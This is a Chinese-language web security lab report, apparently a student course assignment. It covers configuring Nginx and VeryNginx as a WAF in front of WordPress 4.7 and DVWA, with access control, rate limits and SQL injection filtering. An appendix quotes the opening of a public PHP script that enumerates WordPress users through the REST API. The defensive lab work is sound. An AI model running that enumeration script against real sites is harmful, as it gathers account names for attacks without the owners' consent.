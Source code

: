 # Chap0x05

第五章：Web服务器（实验）

## 软件环境建议

- [Nginx](http://nginx.org/)
- [VeryNginx](https://github.com/alexazhou/VeryNginx)
- Wordpress
  - [WordPress 4.7](https://wordpress.org/wordpress-4.7.zip) | [备用下载地址](https://github.com/WordPress/WordPress/archive/4.7.zip)
- [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)

## 实验环境

Windows 11

Ubuntu 20.04.02 Server 64bit

## 实验要求

实验检查点:

### 基本要求

- 在一台主机（虚拟机）上同时配置`Nginx`和`VeryNginx`
  - VeryNginx作为本次实验的Web App的反向代理服务器和WAF
  - PHP-FPM进程的反向代理配置在nginx服务器上，VeryNginx服务器不直接配置Web站点服务
- 使用[Wordpress](https://wordpress.org/)搭建的站点对外提供访问的地址为： http://wp.sec.cuc.edu.cn
- 使用[Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)搭建的站点对外提供访问的地址为： http://dvwa.sec.cuc.edu.cn

### 安全加固要求

- 使用IP地址方式均无法访问上述任意站点，并向访客展示自定义的**友好错误提示信息页面-1**
- [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)只允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-2**
- 在不升级Wordpress版本的情况下，通过定制[VeryNginx](https://github.com/alexazhou/VeryNginx)的访问控制策略规则，**热**修复[WordPress < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)
- 通过配置[VeryNginx](https://github.com/alexazhou/VeryNginx)的Filter规则实现对[Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)的SQL注入实验在低安全等级条件下进行防护

### VeryNginx配置要求

- [VeryNginx](https://github.com/alexazhou/VeryNginx)的Web管理页面仅允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-3**
- 通过定制`VeryNginx`的访问控制策略规则实现：
  - 限制DVWA站点的单IP访问速率为每秒请求数 < 50
  - 限制Wordpress站点的单IP访问速率为每秒请求数 < 20
  - 超过访问频率限制的请求直接返回自定义**错误提示信息页面-4**
  - 禁止curl访问

## 实验过程

### 准备

- 更改主机在`C:\Windows\System32\drivers\etc`的hosts文件：

  ```
   192.168.56.103 vn.sec.cuc.edu.cn
   192.168.56.103 dvwa.sec.cuc.edu.cn
   192.168.56.103 wp.sec.cuc.edu.cn
  ```

- 安装php及相关组件和mysql:

  ```shell
  #安装php
  sudo apt install php-fpm php-mysql php-curl php-gd php-intl php-mbstring php-soap php-xml php-xmlrpc php-zip
  
  #安装MySQL
  sudo apt -y install mysql-server
  ```

### 基本要求

#### 在虚拟机上安装Nginx：

- ```shell
  apt policy nginx  #查看版本
  sudo apt update && sudo apt install nginx  #安装Nginx
  nginx -V  #nginx安装完成并查看版本
  sudo nginx -t  #验证是否安装成功
  ```

- 运行：`ufw`

    ```shell
    sudo ufw app list
    ```

- 通过输入以下内容来启用此功能：

    ```shell
    sudo ufw allow 'Nginx HTTP'
    ```

- 通过运行以下命令来验证更改：

  ```shell
  sudo ufw status
  ```

- nginx显示网页：（是80端口的

#### 在虚拟机上安装VeryNginx：

- 安装git：`sudo apt install git`

  

- 克隆VeryNginx仓库到Linux，下载verynginx安装包：

  ```shell
  git clone https://github.com/alexazhou/VeryNginx.git
  ```

  

- 安装相关依赖包：

  ```
  sudo apt-get install libssl-dev
  sudo apt install libpcre3 libpcre3-dev
  sudo apt install build-essential
  sudo apt install zlib1g-dev
  sudo apt install gcc
  sudo apt install make
  ```

- ```shell
  cd VeryNginx  #进入仓库
  sudo nginx -s stop  #关闭nginx
  sudo python3 install.py install  #安装veryNginx
  ```





# 附录

[WordPress < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)

```
#!usr/bin/php
<?php
 
#Author: Mateus a.k.a Dctor
#fb: fb.com/hatbashbr/
#E-mail: dctoralves@protonmail.ch
#Site: https://mateuslino.tk 
header ('Content-type: text/html; charset=UTF-8');
 
 
$url= "http://localhost/";
$payload="wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
```

